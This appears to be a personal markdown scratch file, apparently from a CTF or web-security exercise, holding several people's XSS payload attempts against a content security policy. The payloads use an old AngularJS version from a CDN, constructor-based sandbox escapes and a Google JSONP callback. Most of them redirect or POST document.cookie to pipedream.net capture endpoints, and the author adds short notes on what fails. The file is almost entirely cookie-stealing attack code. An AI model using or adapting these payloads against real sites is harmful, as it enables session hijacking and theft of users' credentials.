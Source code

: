 ## Megler's Solution (NOT WORKING)
<a ng-app ng-csp ng-click="$event.view.alert(1337)" href="https://enh5ixw37oztid8.m.pipedream.net/'%2bdocument.cookie"><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>text</a>



<a id="this" onLoad="document.getElementById('this').click()" ng-app ng-csp ng-click="$event.view.window.location.href='https://enh5ixw37oztid8.m.pipedream.net?cookie=/'+ document.cookie" href="'https://enh5ixw37oztid8.m.pipedream.net?cookie=/'+ document.cookies"><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>text</a>



## Molina's Solution (NOT WORKING)
<div ng-app="" ng-init="constructor.constructor('window.location.href = \'https://enh5ixw37oztid8.m.pipedream.net?cookie=\' + document.cookie')()" >AAAAA</div>
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>

## Romeo's Solution (???)
<form action="https://enl9mguz8n3s7ib.m.pipedream.net" method="POST"id="form">  <input name="hello" id="cookie"/></form><script src="https://www.google.com/complete/search?client=chrome&q=hello&jsonp=document.getElementById(`cookie`).value=document.cookie;document.getElementById(`form`).submit();console.log"></script>

## Romeo's eval-type Solution
<div ng-app ng-csp>{{$eval.constructor('window.location.href = \'https://enl9mguz8n3s7ib.m.pipedream.net?cookie=\' + document.cookie')()}}</div>
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>

I'll restart here, I have unfortunately one problem, for the life of me I cannot get the website to do an action on load

><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><div ng-app ng-csp id=p ng-click="constructor.constructor('window.location.href ='https://ennwzvkmkf3a21o.m.pipedream.net/' + document.cookie')()" class="ng-scope">

Something like this crashes with a 500 internal server error, is i the fault of the website or is it the program ?

Today he behaviour has changed,it gives me a parse error!This is because I'm back to 1.8.2, so I need an OLDER version of AngularJS

<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.min.js"></script><div ng-app ng-csp id=p ng-click="constructor.constructor('$window.location.href = \'https://ennwzvkmkf3a21o.m.pipedream.net\' + document.cookie')()" class="ng-scope">

<script onload="document.getElementById('payload').click()" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.min.js"></script><div ng-app ng-csp id="payload" ng-click="alert('OK')" class="ng-scope">Test</div>

## BASE
The alert here DOESN'T WORK, not on click and not on load, WTF...


<a id="payload" onload="document.getElementById('payload').click()" ng-app ng-csp ng-click="$event.view.alert(1337)" href="https://enh5ixw37oztid8.m.pipedream.net/'%2bdocument.cookie"><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>text</a>

Two problems, I CANNOT GET to trigger the click event, also, I cannot correctly load the document cookie..
